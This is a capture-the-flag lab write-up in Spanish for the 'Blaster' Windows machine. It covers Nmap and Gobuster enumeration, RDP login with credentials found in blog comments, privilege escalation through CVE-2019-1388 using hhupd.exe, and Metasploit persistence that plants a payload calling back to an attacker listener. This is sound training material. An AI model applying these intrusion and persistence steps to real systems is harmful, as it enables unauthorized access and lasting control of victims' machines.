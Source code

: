 # Blaster

## **Escaneo inicial**
Para comenzar, realizamos un escaneo con **Nmap** para identificar los servicios activos en la máquina. Debido a que no responde al ping, usamos el parámetro `-Pn` para forzar el escaneo.

```bash
nmap -Pn -T4 -sC -sV 
```

El escaneo revela dos puertos abiertos:

- **80 (HTTP)**: Servidor web IIS.
- **3389 (RDP)**: Protocolo de Escritorio Remoto.

---

## **Enumeración web**
Accedemos al puerto 80 desde el navegador y encontramos un sitio web. Para descubrir posibles directorios ocultos, utilizamos **Gobuster**:

```bash
gobuster dir -u http:// -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

El escaneo muestra un directorio interesante: `/retro`. Al explorar este directorio, encontramos un blog con varias publicaciones. Una de ellas menciona al usuario *Wade* y su interés por *"Ready Player One"*. En los comentarios, se revela una contraseña: `parzival`.

---

## **Acceso al sistema**
Con las credenciales obtenidas (`wade:parzival`), intentamos conectarnos al puerto RDP utilizando **xfreerdp**:

```bash
xfreerdp /u:wade /p:parzival /v:
```

La conexión es exitosa, y ahora tenemos acceso al sistema como el usuario Wade.

---

## **Escalada de privilegios**
En el escritorio del usuario Wade encontramos dos elementos clave:

1. Un archivo llamado `user.txt`, que contiene la primera flag.
2. Un programa llamado `hhupd.exe`.

Investigando más sobre `hhupd.exe`, descubrimos que está relacionado con una vulnerabilidad conocida: **CVE-2019-1388**. Este exploit permite la escalada de privilegios explotando configuraciones incorrectas en certificados.

### Pasos para la escalada:
1. Ejecutamos `hhupd.exe` como administrador.
2. En la ventana emergente, seleccionamos "More Details" y luego "Show Information About the Publisher".
3. Esto abre una página web en Internet Explorer.
4. Guardamos la página en el sistema, lo que nos permite abrir una consola CMD con privilegios elevados.

Verificamos los privilegios con el comando:

```bash
whoami
```

Ahora somos `nt authority\system`. Desde aquí, accedemos al escritorio del administrador y encontramos el archivo `root.txt`, que contiene la segunda flag.

---

## **Persistencia**
Para mantener acceso al sistema incluso después de reinicios, configuramos persistencia utilizando **Metasploit**.

### Configuración:
1. Abrimos Metasploit:

   ```bash
   msfconsole
   ```

2. Seleccionamos el módulo de persistencia local:

   ```bash
   use exploit/windows/local/persistence
   ```

3. Configuramos las opciones necesarias:

   ```bash
   set session 
   set LHOST 
   set LPORT 
   ```

4. Ejecutamos el módulo:

   ```bash
   run
   ```

Esto asegura que se cree un servicio persistente que ejecutará nuestro payload en cada reinicio del sistema.

---

## **Conclusión**
Hemos comprometido exitosamente la máquina Blaster siguiendo estos pasos:

1. Enumeración inicial para identificar servicios y directorios.
2. Obtención de credenciales desde la web.
3. Acceso mediante RDP.
4. Escalada de privilegios utilizando un exploit conocido.
5. Configuración de persistencia para mantener el control.

### Flags obtenidas:
- **user.txt**: Primera flag encontrada en el escritorio del usuario Wade.
- **root.txt**: Segunda flag ubicada en el escritorio del administrador.

¡Máquina completada con éxito! 🎉
